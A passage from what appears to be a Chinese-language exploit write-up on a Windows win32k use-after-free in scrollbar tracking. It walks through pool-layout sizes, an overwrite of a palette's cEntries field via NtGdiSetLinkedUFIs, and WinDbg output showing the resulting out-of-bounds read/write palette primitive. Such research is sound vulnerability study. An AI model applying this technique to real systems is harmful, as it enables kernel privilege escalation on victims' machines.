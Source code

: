 cEntries 字段在 palette 对象的 0x1c 位置，在我们之前设计的内存布局中，最后整个 palette 的大小是 0x7f0，那么可以计算出这个 pufi 的内存大小应该是 0x7d4，但是由于 NtGdiSetLinkedUFIs 在 x64 中需要 8 字节对齐，整个 pool 是 0x10 对齐，所以整个 pufi 的大小设为 0x7e0，减去 pool header 部分，pufi 为 0x7d0，在 pufi 对象+c 的位置就是需要覆盖的 cEntries 字段。这么算下来，尽管不会覆盖掉 hHmgr 字段，但是仍然有 8 字节的对象头和 4 字节的 palette flag 是会被覆盖的，对象头部分被覆盖的位置存储的是 PW32THREAD 指针；另一方面，NtGdiSetLinkedUFIs 是有最小写入限制的，当 uNumUFIs 小于 QUICK_UFI_LINKS (4) 的时候会使用 quick ufi link，因此使用 NtGdiSetLinkedUFIs 必须至少写入 0x20 大小的内容，这意味着 cEntries 字段的后面一两个字段都会被覆盖，不过应该问题不大。

写代码实践了一下又发现不行崩溃了，重新申请的 pool 必须得跟第二次释放的 pool 在同一个位置，之前没想到这块，也就是说整个 pufi 的大小必须得是 0x7f0，而 palette 得是 0x800。那么需要把上面那块 0x810 大小的占位块释放掉，让整个页被回收，然后再重新申请。但是 0x800 还有一个问题就是当页面被回收后重新分配的时候一个页会被两块 0x800 的占位块直接占满，所以重新设计一下内存布局：

- top 0x910
- sbtrack 0x80
- buttom 0x670
- pufi 大小 0x6f0
- 重新申请的占位块 top 0x900
- palette 0x700

又写了代码，又发现不行，bugcheck 了。打印一下栈：

```
0: kd> k
 # Child-SP          RetAddr               Call Site
00 ffff8b81`37f7bb58 fffff802`64287f22     nt!DbgBreakPointWithStatus
01 ffff8b81`37f7bb60 fffff802`642877d2     nt!KiBugCheckDebugBreak+0x12
02 ffff8b81`37f7bbc0 fffff802`641f70d7     nt!KeBugCheck2+0x922
03 ffff8b81`37f7c2d0 fffff802`642023a9     nt!KeBugCheckEx+0x107
04 ffff8b81`37f7c310 fffff802`64201b3c     nt!KiBugCheckDispatch+0x69
05 ffff8b81`37f7c450 fffff802`641fd4ad     nt!KiSystemServiceHandler+0x7c
06 ffff8b81`37f7c490 fffff802`64098284     nt!RtlpExecuteHandlerForException+0xd
07 ffff8b81`37f7c4c0 fffff802`64097063     nt!RtlDispatchException+0x404
08 ffff8b81`37f7cbb0 fffff802`64202482     nt!KiDispatchException+0x143
09 ffff8b81`37f7d270 fffff802`64200734     nt!KiExceptionDispatch+0xc2
0a ffff8b81`37f7d450 ffffa0e0`cd8620fc     nt!KiGeneralProtectionFault+0xf4
0b ffff8b81`37f7d5e8 ffffa0e0`ce7521f6     win32kbase!HMAssignmentUnlock+0xc
0c ffff8b81`37f7d5f0 ffffa0e0`ce752ca7     win32kfull!xxxSBTrackInit+0x47e
0d ffff8b81`37f7d6d0 ffffa0e0`ce598d93     win32kfull!xxxSBWndProc+0xa57
```

回头看了一眼之前分析的代码，释放 sbtrack 前首先有三个对 sbtrack 中的字段的 unlock 操作，由于我在 NtGdiSetLinkedUFIs 的时候给内存全设为了 0x77，那么在对 lock 减一的时候自然就导致了内存访问异常。

....!? 等一下！对 lock 减一？内存访问异常？这不就代表我们现在有了一个任意地址减一的原语吗？好吧，这其实是之后我要写的第二个利用手法，现在先跳过这个，继续延续原作者的思路。

修复这个异常方法也很简单，内存全置 0 就行了。

至此可以成功获得一个可以越界读写的 palette

```
0: kd> !dppal ffffa088`c5ad5910 
EPALOBJ structure at 0xffffa088c5ad5910:
--------------------------------------------------
FLONG      flPal         0x501
ULONG      cEntries      0xffffffff
ULONG      ulTime        0x0
HDC        hdcHead       0x0000000000000000
HDEVPPAL   hSelected     0x0000000000000000
ULONG      cRefhpal      0x0
ULONG      cRefRegular   0x0
PTRANSLATE ptransFore    0x0000000000000000
PTRANSLATE ptransCurrent 0x0000000000000000
PTRANSLATE ptransOld     0x0000000000000000
PPALETTE   ppalColor     0xffffa088c5ad5998
PAL_ULONG  apalColor     0x0000000000000000
--------------------------------------------------
```
